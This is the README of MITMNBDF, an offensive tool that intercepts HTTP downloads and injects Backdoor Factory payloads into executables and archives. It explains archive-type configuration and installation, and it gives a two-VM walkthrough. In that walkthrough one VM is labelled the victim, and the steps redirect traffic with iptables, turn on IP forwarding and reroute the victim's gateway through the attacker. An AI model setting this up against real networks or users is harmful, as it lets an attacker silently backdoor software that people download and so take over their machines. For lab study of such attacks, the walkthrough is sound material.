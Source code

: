 # MITMNBDF v1.0
MITMNBDF (_MITM 'n' BDF_) is a kind of `BDFProxy` (https://github.com/secretsquirrel/BDFProxy) rewrite, from which it takes great inspiration.

## What's new (v1.0)
- archive types are handled by the config file: you can add support for new archive types just by editing the config file (default is `mitmnbdf.cfg`) following the format outlined in the next paragraph. This means that you can add new file types support without stopping `mitmnbdf`, giving maximum flexibility.
- mostly of the static variables are now handled by the config file (default is `mitmnbdf.cfg`)
- the whole config file is parsed on every traffic request, that means: it can be edited anytime and the script will adapt in real-time. Most notably, now you can edit the `[targets]` section, so you can change IP addresses, ports, payloads and others without closing `mitmnbdf` 
- multiprocess supports thanks to python `multiprocessing` module. Every stream will run on a dedicate process
- adding support for domain name in log file and output, so you can specify domain names in the `[targets]`
- adding support for multiple metasploit resource files based on `[targets]`: each target now has its own resource file, to reflect the changes that can be made in real time to the config file (the resource file per target follows the format `example_domain_org_msf.rc`).
- log file is grep-friendly: the format helps tools to grep for information. The log format is `date|loglevel|message`, where _loglevel_ is always 4 chars (`ERRO`, `WARN`, `INFO`, `DEBG` and `CRIT` @ EnhancedOutput class)
- more robust error checking and error handling

### File type format
Just as example, the following lines define a new archive file type called 'antani' (a fantasy one) in the `mitmnbdf.cfg`:

```
# don't forget to add your archive type in 'supportedArchiveTypes
# archive type name must be upper letters
supportedArchiveTypes = ZIP, TAR, AR, DEB, LZMA, ANTANI

[...]

[ANTANI]
# patchCount is the max number of files to patch in a zip file
# After the max is reached it will bypass the rest of the files 
# and send on it's way

patchCount = 5

# In Bytes
maxSize = 40000000

blacklist = .dll,  # don't do dlls in the archive file

# here we have a list of all the mime types that belongs to the archive type.
# you can use the command 'file --mime-types archive_file.ext' to fill the variable
mimes = "application/x-antani-compressed", "application/antani"

	# then we specified for each mime types what kind of format and filter we need to
	# apply to create the archive. You can find it out by looking at the libarchive-c source code
	[["application/x-antani-compressed"]]
	format = antani
	filter = xz

	[["application/antani"]]
	format = antani
	filter = None
```

## Why forking
I felt the BDFProxy source code needed a proper redesign to be able to add more features and flexibility, giving the great job Josh did with Backdoor Factory and BDFProxy.
I tried to work with Josh to redesign the code, but he has his ideas and way to manage code that is incompatible with my coding style. Variety is the spice of life.

## How to install
You need to install the python packages listed in `requirements.txt` (hint: `sudo pip install -r requirements.txt`). Before doing that, you need to install `libarchive-dev` from your packet manager. (`sudo apt-get install libarchive-dev` on Debian/Ubuntu).

You need to initialise the `bdf` submodule, so:
```
~/mitmnbdf$ git submodule init
~/mitmnbdf$ git submodule update
```

## How to use
Simply type `sudo python mitmnbdf.py`. Be sure to edit the config file and add your IP addresses and ports in the `[targets]` section.

Of course, you have already mitm'd your victim(s) (use your favourite tool)
To run a quick test, you can setup two VMs as follow:

### VM A (mitmnbdf)
```
~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:32:0e:37  
          inet addr:192.168.8.129  Bcast:192.168.8.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fe32:e37/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:466 errors:0 dropped:0 overruns:0 frame:0
          TX packets:430 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:282593 (282.5 KB)  TX bytes:356018 (356.0 KB)
~$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         192.168.8.2     0.0.0.0         UG    0      0        0 eth0
192.168.8.0     0.0.0.0         255.255.255.0   U     0      0        0 eth0

~/mitmnbdf$ cat mitmnbdf.cfg | grep proxyPort
proxyPort = 8080
~/mitmnbdf$ cat mitmnbdf.cfg | grep proxyMode
proxyMode = transparent  # <-- this is important!!!

~$ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
~$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward

~/mitmnbdf$ sudo python mitmnbdf.py
```

### VM B (victim)

```
~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e1:a1:ed  
          inet addr:192.168.8.135  Bcast:192.168.8.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fee1:a1ed/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:263 errors:0 dropped:0 overruns:0 frame:0
          TX packets:403 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:209801 (204.8 KiB)  TX bytes:31364 (30.6 KiB)

~$ sudo route add default gw 192.168.8.129
~$ sudo route del default gw 192.168.8.2
~$ curl -O http://example.com/mysw.exe
```

## WARNING
This project uses `python-libarchive-c` (https://github.com/Changaco/python-libarchive-c) that is a wrapper for `libarchive` (https://github.com/libarchive/libarchive) which suffers from various bugs that could lead to a remote exploit. Use with care.